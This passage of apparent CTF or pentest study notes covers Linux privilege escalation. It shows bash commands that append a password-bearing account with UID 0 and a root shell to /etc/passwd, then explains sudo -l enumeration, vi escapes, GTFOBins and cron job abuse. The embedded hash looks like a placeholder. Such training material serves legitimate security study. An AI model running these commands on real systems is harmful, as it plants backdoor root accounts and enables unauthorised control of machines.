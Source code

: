 # Add a new user to /etc/passwd with password

```bash
openssl passwd -1 -salt hacker newpassword
echo 'newuser:$1$hacker$JZ6ZjJQJf6eLJ9zvzZvZz1' >> /etc/passwd
```

# Add a new user to /etc/passwd with password, group, home directory and shell

```bash
openssl passwd -1 -salt hacker newpassword
echo 'newuser:$1$hacker$JZ6ZjJQJf6eLJ9zvzZvZz1:0:0:root:/root:/bin/bash' >> /etc/passwd
```

Sudo -l
This exploit comes down to how effective our user account enumeration has been. Every time you have access to an account during a CTF scenario, you should use "sudo -l" to list what commands you're able to use as a super user on that account. Sometimes, like this, you'll find that you're able to run certain commands as a root user without the root password. This can enable you to escalate privileges.

Escaping Vi

Running this command on the "user8" account shows us that this user can run vi with root privileges. This will allow us to escape vim in order to escalate privileges and get a shell as the root user!

Misconfigured Binaries and GTFOBins

If you find a misconfigured binary during your enumeration, or when you check what binaries a user account you have access to can access, a good place to look up how to exploit them is GTFOBins. GTFOBins is a curated list of Unix binaries that can be exploited by an attacker to bypass local security restrictions. It provides a really useful breakdown of how to exploit a misconfigured binary and is the first place you should look if you find one on a CTF or Pentest.

https://gtfobins.github.io/

What is Cron?

The Cron daemon is a long-running process that executes commands at specific dates and times. You can use this to schedule activities, either as one-time events or as recurring tasks. You can create a crontab file containing commands and instructions for the Cron daemon to execute.

How to view what Cronjobs are active.

We can use the command "cat /etc/crontab" to view what cron jobs are scheduled. This is something you should always check manually whenever you get a chance, especially if LinEnum, or a similar script, doesn't find anything.

Format of a Cronjob

Cronjobs exist in a certain format, being able to read that format is important if you want to exploit a cron job. 

# = ID
